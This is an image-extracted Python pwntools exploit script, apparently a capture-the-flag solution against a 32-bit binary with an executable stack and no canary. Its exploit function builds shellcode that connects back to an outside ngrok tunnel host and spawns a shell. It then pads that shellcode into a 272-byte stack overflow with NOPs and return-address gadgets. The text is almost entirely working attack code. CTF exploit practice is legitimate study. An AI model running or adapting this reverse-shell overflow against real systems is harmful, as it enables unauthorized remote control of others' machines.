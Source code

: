 ```python
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Schematic NPC/asr/chall'
#     Arch:       i386-32-little
#     RELRO:      Partial RELRO
#     Stack:      No canary found
#     NX:         NX unknown - GNU_STACK missing
#     PIE:        No PIE (0x8048000)
#     Stack:      Executable
#     RWX:        Has RWX segments
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit(x):
    global io
    offset = 272
    assembly  = shellcraft.i386.linux.connect('0.tcp.ap.ngrok.io', 10406, 'ipv4')
    assembly += 'xchg ebp, ebx\n'
    assembly += shellcraft.i386.linux.dupsh()

    shellcode = asm(assembly)
    pop_ebx = nsa(elf, "pop ebx ; ret")
    input = shellcode.ljust(offset, b"\x90") + p32(elf.sym["_start"] + 44)*0x40 + p32(elf.sym["main"] + 137) + p32(pop_ebx)
    leak("Input hex", input.hex())
    # io = initialize([input])

    leak("ELF base address", hex(elf.address)) if elf.address else None
    leak("Libc base address", hex(libc.address)) if libc.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        # io.close()
```
